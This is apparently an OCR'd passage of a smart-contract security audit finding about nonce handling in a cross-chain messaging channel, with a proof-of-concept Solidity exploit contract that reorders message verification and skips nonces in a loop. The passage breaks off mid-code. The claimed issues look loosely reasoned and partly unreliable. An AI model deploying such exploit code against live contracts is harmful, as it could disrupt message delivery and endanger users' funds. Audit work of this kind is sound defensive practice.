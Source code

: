 ```solidity
    
    function skip(address _oapp, uint32 _srcEid, bytes32 _sender, uint64 _nonce) external {
        // Potential for nonce manipulation
        if (_nonce != inboundNonce(_oapp, _srcEid, _sender) + 1) revert Errors.LZ_InvalidNonce(_nonce);
        lazyInboundNonce[_oapp][_srcEid][_sender] = _nonce;
    }
}
```

Key issues:
1. Unordered message verification
2. Nonce skipping vulnerabilities
3. Lazy nonce updates
4. Message reordering possibilities
5. Insufficient payload verification

### Impact
- Messages can be verified out of order
- Potential for nonce manipulation
- Race conditions in message processing
- Possible message reordering attacks
- Inconsistent message states

### Proof of Concept
```solidity
contract MessagingChannelExploit {
    function demonstrateIssues(
        address channel,
        address oapp,
        uint32 srcEid,
        bytes32 sender
    ) external {
        // 1. Message ordering attack
        // Verify messages out of order
        bytes32 payload1 = keccak256("message1");
        bytes32 payload2 = keccak256("message2");
        
        // Verify nonce 2 before nonce 1
        IMessagingChannel(channel).verify(
            Origin(srcEid, 2, sender),
            oapp,
            payload2
        );
        IMessagingChannel(channel).verify(
            Origin(srcEid, 1, sender),
            oapp,
            payload1
        );
        
        // 2. Nonce skipping attack
        // Skip nonces to prevent message delivery
        for (uint64 i = 1; i <= 10; i++) {
            IMessagingChannel(channel).skip(
                oapp,
                srcEid,
                sender,
                i
            );
        }
        
        // 3. Race condition attack
        // Race between verification and execution
```